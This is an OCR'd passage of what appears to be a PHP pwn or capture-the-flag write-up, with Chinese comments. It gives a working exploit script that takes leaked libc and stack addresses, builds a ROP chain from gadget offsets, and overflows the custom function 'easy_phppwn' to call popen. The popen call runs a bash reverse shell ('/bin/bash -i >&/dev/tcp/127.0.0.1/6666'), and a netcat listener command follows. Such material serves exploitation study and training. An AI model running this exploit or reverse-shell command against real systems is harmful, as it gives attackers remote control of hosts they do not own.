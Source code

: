 ```php
    echo "stack base address:\n";
    foreach ($stackBaseAddresses as $address) {
        echo "0x$address\n";
        break;
    }
} else {
    echo "No stack base address found.\n";
}

// 定义地址和偏移量
$libc_base= hexdec($libcBaseAddresses[0]);
$stack_offset = 0x1c480;
$stack_addr  = hexdec($stackBaseAddresses[0]);
$p_rdi_r =  $libc_base+0x23b6a;//i2s(0x0000000000023b6a + $libc_base);
echo "$p_rdi_r\n";
$p_rsi_r = 0x000000000002601f + $libc_base;
$p_rdx_r = 0x000000000015fae6 + $libc_base; //0x000000000015fae6: pop rdx; pop rbx; ret; 
$p_rax_r = 0x0000000000036174 + $libc_base;
$ret = 0x0000000000036175 + $libc_base;
// 获取 popen 地址
$popen_addr = 0x84380 + $libc_base;

// 定义命令
$command = '/bin/bash -c "/bin/bash -i >&/dev/tcp/127.0.0.1/6666 0>&1"';

// 构造 payload
$buf1 = str_repeat('a', 0x80);
$buf = str_repeat('b', 0x8) . pack('Q', $p_rdi_r) . pack('Q', $stack_addr +$stack_offset ) ;
$buf .= pack('Q', $p_rsi_r) . pack('Q', $stack_addr +$stack_offset-0x18); 
$buf .= pack('Q', $ret); //balance stack rsp
$buf .= pack('Q', $popen_addr) . "r" . str_repeat("\x00", 7) ;
$buf = str_pad($buf, 0x50, 'c');
$buf .= str_pad($command, 0x60, "\x00") . str_repeat('\x00', 8);
$payload = $buf1 . $buf;

// 输出 payload，模拟 easy_phppwn(payload)

echo $payload;
easy_phppwn($payload)

?>
```

```bash
llk@ubuntu:~/Desktop/tools/php-src/ext/hello/modules$ sudo nc -lvvp 6666 -n
Listening on 0.0.0.0 6666

```

堆
=

